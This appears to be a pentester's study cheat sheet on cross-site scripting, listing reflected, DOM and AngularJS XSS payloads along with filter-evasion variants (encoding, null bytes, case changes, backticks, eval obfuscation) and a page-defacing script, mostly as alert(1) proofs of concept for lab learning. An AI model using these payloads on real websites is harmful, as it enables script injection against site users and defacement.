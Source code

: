 
## XSS Injection Technique & Evasion

Always try to enter DUM texte (ABC123) in parameters and in search query. Simply search on the page if this is reflected anywhere!

- `Website.com//feedback?returnPath=/ABC123`
-  Search Query

Content Security Policy (CSP)
- If you seem able to bypass some filter but cant get any popup, try diffrent event (onmouseover, onload, ...) and also try different variations of the script tag or evasion (javascript:, `<SCipt>`, ...)
```
Content-Security-Policy: default-src 'none'; script-src 'self'; style-src 'self'; img-src 'self';
```


Type
```
<script>alert('xss')</script>
<img src=x onerror=alert('1')>
javascript:alert(%27xss%27)
```

IMG
```Terminal
<img src=x>

<img src=1 onerror=alert(1)>
```

href
```
href="javascript:alert(1)"
```

DOM
```
location.search      ---> Search in the URL for a parameter
write.document       ---> This will write to the HTML (Adding something depending on the code)
```

- How to exploit: If you have a variable fetching for ID in the URL and then pasting this value to the HTML, you can create a DOM XSS

Other JS Language
```
# AngularJS
<body ng-app="" class="ng-scope">               ---> Interested in the ng-app
{{$on.constructor("alert(1)")()}}               ---> Explained Below
```

- AngularJS
	- the JavaScript `constructor` function to create a new object with a specified function as its `constructor` attribute. The function being passed to the `constructor` attribute is an `alert` function that displays a message. The code then calls the object using the `()` operator, causing the `alert` function to be executed. PS: We can see the code on the page once it is executed


## Evasion

Encoding
```
urlencode "http://example.com/?param=linux+url+encoder"

<img onerror=&#34alert(1)&#34src=x>
<img onerror=&#39alert(1)&#39src=x>
...

<script>Encoding</script>  ---> %3Cscript%3EEncoding%3C%2Fscript%3E
```

- urlencode ---> Tool to encode url (Possible to encode many times)

Basic Modification
```Terminal
#Encoded tabs/newlines/CR
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>

#Capital letters
<ScRipT>alert(1)</sCriPt>

#If angle brackets are encoded
-alert(1)-  ---> (-) replace (> or <)
```

Adding Nullbytes
```Terminal
<%00script>alert(1)</script>
<scr%00ipt>alert(1)</script>
```

Attributes and Tags
```Terminal
<input type="text" name="input" value="hello" >
<input type="text" name="input" value=">< script >alert(1)</script>
<randomtag type="text" name="input" value=">< script >alert(1)</script>
<input/type="text" name="input" value=">< script >alert(1)</script>
<input&#9type="text" name="input" value=">< script >alert(1)</script>
<input&#10type="text" name="input" value=">< script >alert(1)</script>
<input&#13type="text" name="input" value=">< script >alert(1)</script>
<input/'type="text" name="input" value=">< script >alert(1)</script>
<iNpUt type="text" name="input" value=">< script >alert(1)</script>
```

Attributes Nullbytes
```Terminal
<%00input type="text" name="input" value="><script>alert(1)</script>
<inp%00ut type="text" name="input" value="><script>alert(1)</script>
<input t%00ype="text" name="input" value="><script>alert(1)</script>
<input type="text" name="input" value="><script>a%00lert(1)</script>
```

Event Handler
```Terminal
<input onsubmit=alert(1)>


https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
```

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet (VERY GOOD)

Delimiters & Backticks and Brakers
```
#() to Backticks
<img onerror="alert(1)"src=x>
<img onerror='alert(1)'src=x>

#Backticks
	<img onerror=`alert(1)`src=x>
	
#Encoded backtics
	<img onerror=&#96alert(1)&#96src=x>

#Double use of delimiters
	<<script>alert(1)//<</script>

#Unknown delimiters
	«input onsubmit=alert(1)»
```

Oval ()
```Terminal
<script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>    
```

Word Filter (If some javascript element is filtered)
```Terminal
<scrscriptipt > might become <script>
```

HTML Defacing
```Terminal
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```


All Information ---> https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

<iframe src="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" width="100%" height="1300"></iframe>